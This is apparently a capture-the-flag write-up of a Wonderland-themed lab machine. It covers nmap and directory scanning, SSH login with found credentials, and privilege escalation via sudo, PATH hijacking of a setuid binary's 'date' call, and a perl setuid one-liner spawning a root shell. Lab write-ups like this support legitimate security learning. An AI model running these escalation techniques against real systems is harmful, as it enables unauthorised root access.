 # Writeups


first we have an IP adress, and this IP it is *10.10.174.219*, ok and now we are going to do 
some scanning on this for seeing what it is possible with this, and we are going to do it 
with the famous tools who call NMAP :

====Nmap recon ====
```
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDe20sKMgKSMTnyRTmZhXPxn+xLggGUemXZLJDkaGAkZSMgwM3taNTc8OaEku7BvbOkqoIya4ZI8vLuNdMnESFfB22kMWfkoB0zKCSWzaiOjvdMBw559UkLCZ3bgwDY2RudNYq5YEwtqQMFgeRCC1/rO4h4Hl0YjLJufYOoIbK0EPaClcDPYjp+E1xpbn3kqKMhyWDvfZ2ltU1Et2MkhmtJ6TH2HA+eFdyMEQ5SqX6aASSXM7OoUHwJJmptyr2aNeUXiytv7uwWHkIqk3vVrZBXsyjW4ebxC3v0/Oqd73UWd5epuNbYbBNls06YZDVI8wyZ0eYGKwjtogg5+h82rnWN
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHH2gIouNdIhId0iND9UFQByJZcff2CXQ5Esgx1L96L50cYaArAW3A3YP3VDg4tePrpavcPJC2IDonroSEeGj6M=
|   256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAsWAdr9g04J7Q8aeiWYg03WjPqGVS6aNf/LF+/hMyKh
80/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
this is not an important things so the 2nd  thing, we are going to the index page for this room,
we indicate us and inspect the source code, that said
```
Follow the White Rabbit.

"Curiouser and curiouser!" cried Alice (she was so much surprised, that for the moment she quite forgot how to speak good English)

[IMGAGE]
```
we can note one important information about the person who speak, and this name it's *Alice* 
(username of the machine maybe), and maybe *White Rabbit* also, then 3rd thing,I tried to 
scan directory, I found a lot of things who can help me :
```
Dir found: / - 200
Dir found: /img/ - 200
Dir found: /r/ - 200
Dir found: /r/a/ - 200
Dir found: /r/a/b/ - 200
Dir found: /r/a/b/b/ - 200
Dir found: /r/a/b/b/i/ - 200
Dir found: /r/a/b/b/i/t/ - 200
```
the last one `http://10.10.174.219/r/a/b/b/i/t/` and surprise me, I opened all the dirs I found 
the a message who indicate me that I unlocked the door :
```
Open the door and enter wonderland

"Oh, you’re sure to do that," said the Cat, "if you only walk long enough."

Alice felt that this could not be denied, so she tried another question. "What sort of people live about here?"

"In that direction,"" the Cat said, waving its right paw round, "lives a Hatter: and in that direction," waving the other paw, "lives a March Hare. Visit either you like: they’re both mad."
```
and I obtained that : `alice:HowDothTheLittleCrocodileImproveHisShiningTail` and I'm sure it's 
a very important things maybe like as a couple username:password, and I'm going to try to connect 
me on the ssh server with this.

YESSSS that's true I finally have access to the system ssh and now I see 2 files and the folder 
of user alice and the others users isn't open to alice but explore the system now

I saw a script I execute it and he gave me that 
```
alice@wonderland:~$ python3 walrus_and_the_carpenter.py 
The line was:    And yet another four;
The line was:    Meaning to say he did not choose
The line was:    "Is what we chiefly need:
The line was:    
The line was:    Their shoes were clean and neat —
The line was:    
The line was:    "But wait a bit," the Oysters cried,
The line was:    And you are very nice!"
The line was:    Were walking close at hand;
The line was:  
```
I understand nothing but I am going to continue my inspecting process.


fortunately I saw something in the sudoers note

```
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
But wait I visited the directory /root and I had had access then usually we don't have 
access to read the content of everyfolders but you can read and navigate on this

`/root/user.txt`, here the 1st flag

1. thm{"Curiouser and curiouser!"}


COntinue ...

now come back to the sudoers notes `sudo -l`, after I received the path,I execute the file 
with the user rabbit , like that

`sudo -u rabbit <path file python>`

and I have just been to escalate the privilege to user rabbit, now I return back to my userfile 
the `home/rabbit`, I have a file who name "teaParty", and I am going to execute him with the command 
`./teaParty`, but there not so much thing so important therefore I am going to download the file on 
my machin with the http.server from python

`python3 -m http.server [ http://iphost:port/ ]`

after that I am going to see all of strings who has in this file 

*strings teaParty*===content===
```
/lib64/ld-linux-x86-64.so.2
2U~4
libc.so.6
setuid
puts
getchar
system
__cxa_finalize
setgid
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u/UH
[]A\A]A^A_
Welcome to the tea party!
The Mad Hatter will be here soon.
/bin/echo -n 'Probably by ' && date --date='next hour' -R
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
;*3$"
GCC: (Debian 8.3.0-6) 8.3.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.7325
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
teaParty.c
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
puts@@GLIBC_2.2.5
_edata
system@@GLIBC_2.2.5
__libc_start_main@@GLIBC_2.2.5
__data_start
getchar@@GLIBC_2.2.5
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_csu_init
__bss_start
main
setgid@@GLIBC_2.2.5
__TMC_END__
_ITM_registerTMCloneTable
setuid@@GLIBC_2.2.5
__cxa_finalize@@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.got.plt
.data
.bss
.comment
```

There are some information very important like as 
```
Welcome to the tea party!
The Mad Hatter will be here soon.
/bin/echo -n 'Probably by ' && date --date='next hour' -R
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
```
and now we are going to create a file who will help us for escalate the privilege another time again

`date.sh`==content===
```
#!/bin/bash
echo ""
echo "DATE HIJACKED"
/bin/bash
~
```
and after that I have exported the path just in the objectives to reload the path and 
I escalate the privilege. I have just arrived on the directory home and I see a file who 
his name is password.txt(`WhyIsARavenLikeAWritingDesk?`) and now I am going to access with 
the ssh for have many privileges

`ssh hatter@ip`, after the connection I executed the command

`/usr/bin/perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'`

but where I found this command I hosted a file "linpeas" on my machine and  I upload this file on the remote machine and I executed this and I have a notif who told me that file have been executed with success
and the flag 

2. *thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}*
